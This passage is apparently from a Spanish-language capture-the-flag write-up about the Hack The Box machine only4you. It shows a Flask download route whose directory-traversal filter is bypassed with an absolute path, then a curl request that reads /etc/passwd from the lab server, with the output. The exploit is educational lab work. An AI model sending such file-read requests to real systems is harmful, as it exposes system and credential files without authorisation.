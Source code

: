 Es una aplicación Flask con distintas rutas, pero hay algo que llama la atención y es que la ruta download parece vulnerable a Arbitrary File Read, aunque esté filtrando por carácteres de navegación de directorios la función de normalización del posixpath solamente normaliza la ruta a una absoluta y el `path#join` es solamente aplicado si la ruta no es absoluta.

```python
@app.route('/download', methods=['POST'])
def download():
    image = request.form['image']
    filename = posixpath.normpath(image) 
    if '..' in filename or filename.startswith('../'):
        flash('Hacking detected!', 'danger')
        return redirect('/list')
    if not os.path.isabs(filename):
        filename = os.path.join(app.config['LIST_FOLDER'], filename)
    try:
        if not os.path.isfile(filename):
            flash('Image doesn\'t exist!', 'danger')
            return redirect('/list')
    except (TypeError, ValueError):
        raise BadRequest()
    return send_file(filename, as_attachment=True)
```

Si probamos a introducir `/etc/passwd` en el parámetro de la imágen, ¡nos lo devuelve!

```bash
❯ curl -v -d "image=/etc/passwd" http://beta.only4you.htb/download
*   Trying 10.10.11.210:80...
* Connected to beta.only4you.htb (10.10.11.210) port 80 (#0)
> POST /download HTTP/1.1
> Host: beta.only4you.htb
> User-Agent: curl/8.1.2
> Accept: */*
> Content-Length: 17
> Content-Type: application/x-www-form-urlencoded
> 
< HTTP/1.1 200 OK
< Server: nginx/1.18.0 (Ubuntu)
< Date: Thu, 24 Aug 2023 19:59:14 GMT
< Content-Type: application/octet-stream
< Content-Length: 2079
< Connection: keep-alive
< Content-Disposition: attachment; filename=passwd
< Last-Modified: Thu, 30 Mar 2023 12:12:20 GMT
< Cache-Control: no-cache
< ETag: "1680178340.2049809-2079-393413677"
< 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
... [snip]
```
